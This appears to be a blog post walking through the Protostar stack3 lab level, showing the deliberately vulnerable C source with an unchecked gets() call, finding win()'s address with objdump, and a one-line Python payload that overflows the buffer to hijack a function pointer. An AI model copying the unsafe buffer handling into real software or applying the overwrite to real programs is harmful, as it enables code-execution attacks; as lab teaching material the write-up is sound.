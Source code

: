 ```yaml
---
layout: post
title: "Redirecting Control Flow To Specific Address: protostar stack3"
date: 2018-10-23 16:02:45 -700
categories: jekyll update
---
```


#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
{% endhighlight %}

Here we have a function outside of the main() called win() and in the main we have a blank function pointer within main, conveniently located right after the end of a buffer. 

If you are not familiar with how a c program runs, the code contained in the main() will be executed, and other functions outside of it are typically called within main. Since the function win() is never called by main(), it will never execute. Unless you are a hacker. 

The basic idea is the same for this program, we will overflow the buffer and write whatever we want to the fp() pointer. In this case, we need to write the address of the win() function.

There are many ways to get the address of the main function including using a debugger like GDB (a tool I use a lot), but for the sake of simplicity, I will show how to find this address using a command called objdump.

objdump has many uses, but for our purpose we should run it with the -S flag, in order to get the source, which will contain memory addresses of functions. We can also use grep to give us only the win() address.

$objdump -S stack3 | grep win

08048424 <win>:

$

Now we have the address.

$python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3

calling function at 0x08048424
code flow successfully changed

Cool. We have changed the code flow to a specific part of memory. This is a very useful tactic, which will be expanded upon in later challenges. 